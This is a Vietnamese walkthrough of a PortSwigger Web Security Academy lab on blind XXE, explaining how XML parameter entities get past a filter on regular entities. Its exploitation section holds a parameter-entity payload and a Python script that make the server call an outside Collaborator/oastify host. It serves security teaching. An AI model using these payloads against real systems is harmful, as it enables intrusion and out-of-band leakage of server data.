  [image](https://hackmd.io/_uploads/ryUkIrln6.png)

### Phân tích

- Chức năng "Check stock" của trang web phân tích cú pháp dữ liệu XML nhưng không trả về bất kỳ kết quả nào trong giao diện. Đồng thời chứa một cơ chế ngăn chặn tấn công XXE. Để hoàn thành bài lab, chúng ta vượt qua lớp ngăn chặn, từ đó thực hiện một kịch bản DNS lookup tới client Burp Collaborator.
- Bài này nâng cấp từ bài trên khi server trang bị thêm cơ chế block các requests có chứa các external entities thông thường.

 [image](https://hackmd.io/_uploads/Hka98HlnT.png)

- Tức là chúng ta không thể định nghĩa các entity thông thường với ký tự & như &xxe;. Tuy nhiên, ký tự % được phép sử dụng, giao diện chỉ trả về thông báo cú pháp XML lỗi chứ không phải do nguyên nhân phát hiện ký tự nhạy cảm:

 [image](https://hackmd.io/_uploads/H1JkDBx2a.png)

### Khai thác

- Để bypass, ta sẽ sử dụng XML parameter entity. Đây là một dạng entity đặc biệt của XML sử dụng kí tự `%` thay `&`. Đồng thời những parameter entity chỉ được sử dụng trong DTD nó được định nghĩa. Ta sẽ sử dụng payload sau:

```xml 
< DOCTYPE cuong [ < ENTITY % xxe SYSTEM "http://<COLLABORATOR_DOMAIN>"> %xxe; ]>
```

Sau khi gửi request, client Collaborator nhận được yêu cầu phân giải tên miền từ server victim, bài lab hoàn thành:

 [image](https://hackmd.io/_uploads/HJ-SuSgh6.png)

mình đã viết script khai thác

```python
# /usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a57000904bad72680d63a1a005400c9.web-security-academy.net'

session=requests.Session()

data = '<?xml version="1.0" encoding="UTF-8"?>< DOCTYPE foo [ < ENTITY % xxe SYSTEM "http://yikfn9un5au63ryrq5f0jfe1lsrjf93y.oastify.com"> %xxe; ]><stockCheck><productId>#1</productId><storeId>1</storeId></stockCheck>'


response= session.post(
    url + '/product/stock',
    data=data,
    verify=False,
)

print(response.text)
```
